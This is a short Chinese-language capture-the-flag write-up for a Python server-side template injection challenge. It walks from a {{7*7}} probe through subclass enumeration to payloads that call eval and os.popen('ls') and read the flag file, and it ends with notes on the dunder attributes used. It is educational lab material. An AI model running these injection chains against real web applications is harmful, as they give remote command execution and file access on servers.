



# Web_python_template_injection
## 题目描述
暂无  
## 思路
http://220.249.52.133:31939
点开题目链接：
  
是一道 python 模板注入的题，尝试一下：  
http://220.249.52.133:31939/{{7*7}}  
  
确实存在该漏洞。  
看看网站模块都有些啥：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()}}  
  
os 模块都是从 warnings.catch_warnings 模块入手的，因此，查找 catch_warnings 的位置，为第59个。  
我们再查看catch_warnings模块都存在哪些全局函数：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}  
  
发现了 linecache 函数，os 模块就在其中。  
使用 ['o'+'s']，可绕过对 os 字符的过滤，查看一下有那些文件：   
http://220.249.52.133:31939/{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}  
  
flag 应该就在这个 fl4g 文件中了，尝试访问一下：  
http://220.249.52.133:31939/{{"".__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}  
  
得到 flag。  

## 相关知识
1. 对于模板注入漏洞，判断漏洞是否存在，一般在 url 后添加 {{‘a'+'x'}} 或者 {{7*7}} 以查看是否会执行，若花括号内的式子被执行，则说明存在模板注入漏洞。  
2. 用 python 获取系统权限  
os.system 和 os.popen。前者返回退出状态码，后者以 file 形式返回输出内容。（https://blog.csdn.net/sxingming/article/details/52071514）  
3. 用python 语句寻找文件  
\__class__ ：返回对象所属的类  
__mro__：返回一个类所继承的基类元组（用于寻找基类）  
__base__ ：返回该类所继承的基类（用于寻找基类）  
__subclasses__ ： 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表  
__init__ ： 类的初始化方法  
__globals__ ： 对包含函数全局变量的字典的引用  
